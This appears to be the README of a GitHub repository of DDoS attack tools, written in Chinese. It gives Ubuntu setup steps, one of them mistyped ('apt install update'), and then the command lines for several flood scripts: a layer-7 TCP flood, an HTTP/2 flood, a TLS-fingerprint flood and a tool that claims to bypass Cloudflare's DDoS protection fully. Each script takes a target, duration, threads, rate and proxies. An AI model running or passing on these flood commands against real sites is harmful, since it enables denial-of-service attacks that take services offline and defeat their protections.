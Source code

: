 # CC-scripts-and-environments
环境准备：


安装操作系统 Ubuntu 22

apt install update - 更新源

apt install curl - 安装curl

chmod 777 * - 给当前目录脚本可执行权限

sh install.sh - 运行安装脚本环境的shell文件


ATTACK脚本介绍和执行命令：


L7 TCP - TCP
通过大量的L7层TCP连接消耗服务器带宽资源

执行命令：
./tcp 目标 时间 代理

HTTPS
原始洪水，HTTP/2.0协议 测试下来洪水量最高的脚本

执行命令：
node tornadov2.js GET/POST 目标 时间 线程 速率 代理 --http 2 --legit

TLS指纹洪水 - TLS
能够绕过一些普防，绕过率和洪水量兼备

执行命令：
node tls.js 目标 时间 速率 线程 代理

cf-yujian
100%绕过 CF-HTTPDDOS HTTP/1.1协议绕过

执行命令：
./fox GET 目标 代理 时间 线程 速率
